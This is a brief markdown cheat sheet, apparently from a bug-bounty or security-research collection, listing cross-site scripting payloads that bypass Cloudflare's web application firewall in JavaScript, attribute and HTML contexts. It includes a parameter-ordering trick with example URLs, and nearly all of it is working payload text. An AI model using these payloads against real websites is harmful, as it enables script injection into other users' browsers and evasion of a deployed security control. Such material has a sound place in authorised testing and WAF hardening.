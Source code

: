 # CloudFlare XSS bypasses in different contexts

### JS Context

For **JS** context, when multiple parameters are reflected inside **<script>** tag e.g:
```
<script>
something({"some/thing":{"key":[{"name":"PARAM2_REFLECTION1","age":"","country":"","address1":"PARAM1_REFLECTION2","id":"123"}]}});
</script>
```

Set value of parameter which is reflected first: `</script%20`

Set value of parameter which is reflected afterwards: `><svg/oni=on onload=confirm(2)>`

The parameter which is reflected first, should be placed at end of URL, like:

`https://example[.]com/some/endpoint?param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E&param2=</script%20`

If it is placed before like folllowing, Cloudflare WAF will trigger:

`https://example[.]com/some/endpoint?param2=</script%20&param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E`

Sample Response contents:
```
<script>
something({"some/thing":{"key":[{"name":"</script ","age":"","country":"","address1":"><svg/oni=on onload=confirm(2)>","id":"123"}]}});
</script>
```

### Attribute Context

For Attribute context use:
```
"><svg/oni=on onload=confirm(2)>
'><svg/oni=on onload=confirm(2)>
```

### HTML Context

For HTML context use:

`<svg/oni=on onload=confirm(2)>`

Credits for XSS bypass in HTML context: [Troll_13](https://twitter.com/Troll_13/status/1353713311972552709)

---

Bypasses tested on: `August 26, 2021`
